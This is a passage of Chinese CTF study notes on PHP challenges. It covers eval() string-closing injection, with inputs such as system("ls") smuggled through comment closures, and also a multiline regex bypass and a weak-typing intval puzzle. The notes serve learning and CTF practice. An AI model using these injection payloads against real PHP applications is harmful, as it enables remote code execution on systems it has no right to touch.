 #### 行内注释

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668653918640-a512ff7d-45d4-4cba-8751-c47f225ef127.png#averageHue=%23fefefd&clientId=u5069738d-67bf-4&from=paste&height=238&id=u5234e527&originHeight=476&originWidth=1005&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48471&status=done&style=none&taskId=u5f62dbc9-8eec-42e0-9930-e14b3912990&title=&width=502.5)

- 这里可以构造闭合

```php
eval("$v2('ctfshow')$v3");

//传入v2=system("ls")/*&v3=*/;

eval("system("ls")/*('ctfshow')*/;");
//注意这里ls要＋双引号

```

#### 直接闭合

```php
eval("$v2('ctfshow')$v3");

//传入v2=phpinfo()?>%23&v3=;

eval("phpinfo()?>%23('ctfshow')$v3");
//注意这里ls要＋双引号
```

- 这里要用%23，用#可能不好使

### 正则匹配

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1667478860805-a808c8c1-42a2-49f3-9ae7-68e73a7f468d.png#averageHue=%23fefdfd&clientId=uc3456c97-0885-4&from=paste&height=229&id=ezynW&originHeight=457&originWidth=669&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32987&status=done&style=none&taskId=u79104fd6-0357-40d6-9d9d-1b03452cd58&title=&width=334.5)

- ^表示以php开头，$表示以php结尾，所以字符串只能是php
- /m表示多行匹配，因此会逐行查找。第二个正则没有多行查找，只看第一行，所以无法满足条件

```php
php//上面会先换行，因为%0a
```

### 弱类型

[https://www.php.net/manual/zh/language.operators.comparison.php](https://www.php.net/manual/zh/language.operators.comparison.php)

```php
<?php
$num = '';
    if($num==4476){
        die("1");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("2");
    }
    if(!strpos($num, "0")){
        die("3!");
    }
    if(intval($num,0)===4476){
        echo "yes";
    }

?>
```

